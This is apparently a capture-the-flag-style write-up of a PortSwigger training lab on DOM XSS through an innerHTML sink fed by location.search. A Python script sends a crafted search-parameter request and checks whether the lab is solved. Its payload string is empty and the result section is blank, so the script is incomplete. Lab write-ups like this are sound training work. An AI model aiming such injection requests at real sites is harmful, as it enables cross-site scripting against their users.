

# Lab: DOM XSS in innerHTML sink using source location.search

## Description
```
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")

attack_payload = ""
print(f"attack_payload : /?search={attack_payload}")
burp0_url = f"https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/?search={attack_payload}"
burp0_cookies = {"session": "ElC3YktkEquXUk5AltPiHUdVu5rpWmtA"}
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/?search=%3Cimg+src%3Dx%3E", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
session.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
